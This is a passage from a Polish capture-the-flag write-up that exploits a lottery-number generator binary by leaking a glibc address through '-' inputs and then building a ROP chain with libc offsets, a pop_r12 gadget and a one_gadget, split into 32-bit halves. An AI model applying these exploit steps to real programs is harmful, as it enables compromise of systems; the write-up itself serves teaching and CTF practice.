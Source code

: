```bash
    b'40\n'
    b'26\n'
    b'72\n'
    b'36\n'
    b'11\n'
    b'68\n'
    b'67\n'
    b'29\n'
    b'82\n'
```
Myślałem, że z tych cyfr uda mi się ustalić adresu stosu itd. I racja niestety, nie tędy droga...
# printf
Ten wycieknięty adres musi znajdować się gdzieś w funkcji enter_name, ale nie można go wyciągnąć standardowymi metodami, takimi jak %1$p, %lx, itd. Próbowałem XOR-owania, dłuższych stringów – nic z tego. Dopiero przypadkiem, gdy wpisałem przy cyfrach sam minus (zresztą sam plus też można wpisać), zauważyłem interesujący adres `139790197586304`, czyli `0x7f237111f980`. Był to adres jakiejś wyciekniętej funkcji z biblioteki glibc. Czy to oznacza, że jesteśmy już w domu? Oczywiście, w miejscu, gdzie podałem 1, należy wpisać `\x00`, ale to tylko przykład.
{: .text-justify}
```bash
1. Enter your name and birthday
2. Generate numbers
> 1
Enter your name: 1
Enter your birth year: -
Enter your birth month: -
Enter your birth day: -
Hello 1
, your ID is 139790197586304
Welcome to the 100 percent accurate lucky number generator. You will definitely win the lottery with this number generator.
1. Enter your name and birthday
2. Generate numbers
>
```
# ROP
Dobrze, mamy wyciekniętą funkcję, więc możemy w prosty sposób zbudować ROP-y. Brzmi prosto... ale o szczegółach później.
{: .text-justify}
```py
    ID=enter_name(b'\x00')
    libc_leak=int(ID)-0x1eb980 #leak
    libc.address=libc_leak
    system=libc.address+0x55410
    puts = libc.sym['puts']
    ...
  ```
# Konwersja liczb
Idea jest taka, że znamy już adresy, ale musimy umieścić je na stosie, podając liczby. Na szczęście konwersję (szybko?) obliczył Chat GPT.
{: .text-justify}
```py
    payload=[ret,pop_r12,0,one_gadget]
    for rop in payload:
        liczba=rop
    # Rozbicie liczby na dolne i górne 32 bity:
        low  = liczba & 0xffffffff
        high = (liczba >> 32) & 0xffffffff

```